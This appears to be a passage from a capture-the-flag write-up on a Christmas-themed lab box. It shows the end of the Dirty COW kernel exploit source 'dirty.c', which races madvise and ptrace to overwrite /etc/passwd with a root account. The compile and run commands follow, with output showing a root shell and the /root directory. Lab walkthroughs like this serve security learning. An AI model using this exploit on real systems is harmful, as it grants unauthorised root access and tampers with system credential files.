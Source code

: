 ```c
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```

>>

```bash
$ nano dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ls
christmas.sh  cookies_and_milk.txt  dirty  dirty.c
$ ./dirty
/etc/passwd successfully backed up to the tmp/passwd.bak
Please enter the new Password :
Complete Line :
firefart:fiu5dKg9dGlso:0:0:pwned:/root:/bin/bash

mmap: 7f389d2ad000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'p@33w0rd'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'p@33w0rd'.

$ 
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ su firefart
Password: 

firefart@christmas:/home/santa# whoami
firefart
firefart@christmas:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@christmas:/home/santa# ls
christmas.sh  cookies_and_milk.txt  dirty  dirty.c
firefart@christmas:/home/santa# cd /root
firefart@christmas:~# ls
christmas.sh  message_from_the_grinch.txt
-------------------------------------------------------------
```